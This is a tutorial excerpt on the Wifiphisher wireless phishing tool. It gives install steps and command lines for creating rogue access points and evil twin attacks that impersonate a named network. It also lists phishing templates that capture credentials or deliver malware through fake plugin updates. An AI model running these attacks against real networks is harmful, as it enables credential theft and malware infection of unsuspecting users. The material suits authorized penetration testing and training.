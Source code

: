 Wifiphisher specializes in automated phishing attacks against wireless networks. It creates a rogue access point and uses sophisticated social engineering techniques to convince users to divulge information or perform harmful actions.

#### Installation

```bash
# Install from package manager
sudo apt update
sudo apt install wifiphisher

# Or install from source
git clone https://github.com/wifiphisher/wifiphisher.git
cd wifiphisher
sudo python setup.py install
```

#### Basic Usage

```bash
# Basic rogue AP with default phishing scenario
sudo wifiphisher

# Specify interfaces
sudo wifiphisher -i wlan0 -e wlan1

# Target a specific AP
sudo wifiphisher --essid "TargetNetwork"
```

#### Template Customization

Wifiphisher comes with several pre-built phishing templates:

```bash
# List available templates
sudo wifiphisher --help | grep "Scenario"

# Specify a template
sudo wifiphisher -p firmware-upgrade
```

Available templates include:
- **firmware-upgrade**: Prompts users to update router firmware (captures credentials)
- **oauth-login**: Fake OAuth login page for popular services
- **wifi_connect**: Basic captive portal login page
- **plugin_update**: Fake browser plugin update page (delivers malware)
- **captive_portal**: Generic captive portal

#### Example: Evil Twin Attacks

```bash
# Gather information about the target network
sudo airodump-ng wlan0

# Create an evil twin with a firmware update phishing page
sudo wifiphisher -i wlan0 -e wlan1 --essid "TargetNetwork" --bssid 00:11:22:33:44:55 -p firmware-upgrade

# Customize the attack (edit template files first)
sudo wifiphisher -i wlan0 -e wlan1 --essid "TargetNetwork" -p firmware-upgrade
```

